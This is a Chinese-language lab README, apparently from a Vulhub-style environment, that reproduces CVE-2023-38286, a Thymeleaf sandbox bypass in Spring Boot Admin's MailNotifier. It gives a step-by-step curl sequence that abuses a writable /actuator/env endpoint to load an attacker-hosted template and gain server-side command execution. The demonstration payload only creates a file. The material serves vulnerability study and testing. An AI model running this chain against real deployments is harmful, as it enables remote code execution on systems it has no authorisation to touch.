

# Spring Boot Admin MailNotifier 中的 Thymeleaf 沙箱绕过漏洞（CVE-2023-38286）

Thymeleaf 是一个服务端 Java 模板引擎，常用于 Spring 应用。Spring Boot Admin 是一个用于管理和监控 Spring Boot 服务的 Web 应用。

CVE-2023-38286 是 Thymeleaf 的一处沙箱绕过漏洞，影响 Thymeleaf 3.1.1.RELEASE 及以前版本，并影响使用该组件的 Spring Boot Admin 3.1.1 及以前版本等产品。在 Spring Boot Admin 中，MailNotifier 会使用 Thymeleaf 渲染 HTML 邮件模板。如果 MailNotifier 被启用，且攻击者可以通过 UI 或 `/actuator/env` 接口写入环境变量，攻击者就可以将 `spring.boot.admin.notify.mail.template` 修改为自己控制的 HTML 模板。Spring Boot Admin 在通知流程中加载并渲染该模板时，会触发服务端模板注入并造成命令执行。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2023-38286>
- <https://osv.dev/vulnerability/CVE-2023-38286>
- <https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI>
- <https://github.com/codecentric/spring-boot-admin/blob/3.1.0/spring-boot-admin-server/src/main/java/de/codecentric/boot/admin/server/notify/MailNotifier.java>

## 环境搭建

执行如下命令启动 Spring Boot Admin 3.1.0：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Spring Boot Admin。

## 漏洞复现

当前目录下的 [`poc.html`](poc.html) 使用公开 PoC 中的 Thymeleaf 沙箱绕过方式，在 Spring Boot Admin 渲染模板时执行无害命令 `touch /tmp/vulhub-cve-2023-38286`。在当前目录启动一个 HTTP 服务来托管该模板：

```
python -m http.server 8000
```

模板地址将是 `http://your-ip:8000/poc.html`。请将 `your-ip` 替换为 Spring Boot Admin 容器可访问的 IP 地址，例如宿主机的局域网 IP 地址。

首先，通过可写的 Actuator 环境变量接口启用 MailNotifier：

```
curl -X POST http://your-ip:8080/actuator/env \
  -H 'Content-Type: application/json' \
  -d '{"name":"spring.boot.admin.notify.mail.enabled","value":"true"}'
```

然后，将 MailNotifier 的模板地址修改为你的 HTTP 服务提供的攻击者可控模板：

```
curl -X POST http://your-ip:8080/actuator/env \
  -H 'Content-Type: application/json' \
  -d '{"name":"spring.boot.admin.notify.mail.template","value":"http://your-ip:8000/poc.html"}'
```

接下来，刷新 Spring 上下文，使修改后的通知器配置重新绑定：

```
curl -X POST http://your-ip:8080/actuator/refresh \
  -H 'Content-Type: application/json' \
  -d '{}'
```

通知器配置完成后，注册一个健康检查地址指向本地关闭端口的虚假应用。Spring Boot Admin 会检查该实例，将其标记为离线，并在准备通知时渲染刚才配置的邮件模板：

```
curl -X POST http://your-ip:8080/instances \
  -H 'Content-Type: application/json' \
  -d '{"name":"poc","managementUrl":"http://127.0.0.1:1","healthUrl":"http://127.0.0.1:1","serviceUrl":"http://127.0.0.1:1"}'
```

由于本环境没有运行 SMTP 服务，邮件发送本身会失败，但模板会先于发送动作完成渲染。检查 payload 创建的文件即可验证命令执行：

```
docker compose exec web ls -l /tmp/vulhub-cve-2023-38286
```

如果该文件存在于 Spring Boot Admin 容器中，即可证明构造的 Thymeleaf 模板已在服务端被求值。


